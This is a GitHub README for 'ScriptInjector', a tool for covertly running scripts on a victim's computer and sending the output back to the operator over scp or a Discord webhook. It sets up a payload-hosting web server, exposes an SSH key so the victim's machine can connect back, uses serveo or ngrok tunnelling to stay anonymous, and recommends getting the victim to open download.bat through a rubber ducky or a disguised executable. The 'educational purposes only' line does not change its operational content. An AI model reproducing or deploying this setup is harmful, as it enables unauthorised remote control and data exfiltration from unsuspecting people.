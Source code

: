 # ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    ```
2. Install packages
    ```
    sudo apt install -y apache2 openssh-client screen
    sudo systemctl enable ssh
    ```
3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```
4. Generate an ssh-key to allow your victim to scp into your system, it is recommended to use another user with fewer permissions 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    ```
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
    mv ~/.ssh/id_rsa ~/.ssh/id_rsa.pub /var/www/html/
    ```
5. Setup port forwarding or serveo.net/ngrok to stay anonymous
    1. forward port 80 and 22 (http and ssh)
    2. create a no-ip or a subdomain of your port-forwarding service
6. Create an ssh config file for your victim
    1. use the template "config" file
    2. if you're using serveo.net to forward your IP, use the "config_serveo" template
        - since serveo forwards IPs using ssh, you need to configure ProxyJump for serveo.
        - I recommend serveo because of this, it keeps your connection secure
        - You need to generate a hostname (see the launch_serveo.txt file for serveo) and just put it into "<hostname>" in your config file
    3. move your config file into /var/www/html/
7. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
8. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```
9. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.


- HTML.sh mit screen und serveo
- run download.bat mit exe oder rubber ducky
- launch_serveo.txt
- alles noch in vm testen